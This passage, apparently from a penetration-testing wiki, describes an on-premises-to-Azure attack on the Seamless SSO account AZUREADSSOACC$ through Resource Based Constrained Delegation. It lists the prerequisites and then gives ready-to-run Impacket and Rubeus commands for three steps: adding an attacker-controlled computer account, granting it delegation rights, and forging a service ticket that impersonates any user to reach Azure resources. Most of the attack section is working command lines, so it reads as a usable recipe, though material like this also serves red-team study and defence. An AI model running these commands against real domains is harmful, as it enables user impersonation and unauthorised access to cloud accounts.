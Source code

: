 > [!WARNING]
> This **doesn't bypass MFA if enabled** in the user.

### On-prem -> Cloud via Resource Based Constrained Delegation [](#creating-kerberos-tickets-for-cloud-only-users)

To perform the attack is needed:

- `WriteDACL` / `GenericWrite` over `AZUREADSSOACC$`
- A computer account you control (hash & password) - You could create one

1. Step 1 – Add your own computer account
   - Creates `ATTACKBOX$` and prints its SID/NTLM hash. Any domain user can do this while MachineAccountQuota > 0

```bash
# Impacket
python3 addcomputer.py CONTOSO/bob:'P@ssw0rd!' -dc-ip 10.0.0.10 \
       -computer ATTACKBOX$ -password S3cureP@ss
```

2. Step 2 – Grant RBCD on `AZUREADSSOACC$` - Writes your machine’s SID into `msDS-AllowedToActOnBehalfOfOtherIdentity`.

```bash
python3 rbcd.py CONTOSO/bob:'P@ssw0rd!'@10.0.0.10 \
       ATTACKBOX$ AZUREADSSOACC$

# Or, from Windows:
$SID = (Get-ADComputer ATTACKBOX$).SID
Set-ADComputer AZUREADSSOACC$ `
  -PrincipalsAllowedToDelegateToAccount $SID
```

3. Step 3 – Forge a TGS for any user (e.g. alice)

```bash
# Using your machine's password or NTLM hash
python3 getST.py -dc-ip 192.168.1.10 \
       -spn HTTP/autologon.microsoftazuread-sso.com \
       -impersonate alice \
       DOMAIN/ATTACKBOX$ -hashes :9b3c0d06d0b9a6ef9ed0e72fb2b64821

# Produces alice.autologon.ccache

#Or, from Windows:
Rubeus s4u /user:ATTACKBOX$ /rc4:9b3c0d06d0b9a6ef9ed0e72fb2b64821 `
       /impersonateuser:alice `
       /msdsspn:"HTTP/autologon.microsoftazuread-sso.com" /dc:192.168.1.10 /ptt
```

You can now use the **TGS to access Azure resources as the impersonated user.**

### ~~Creating Kerberos tickets for cloud-only users~~ [](#creating-kerberos-tickets-for-cloud-only-users)
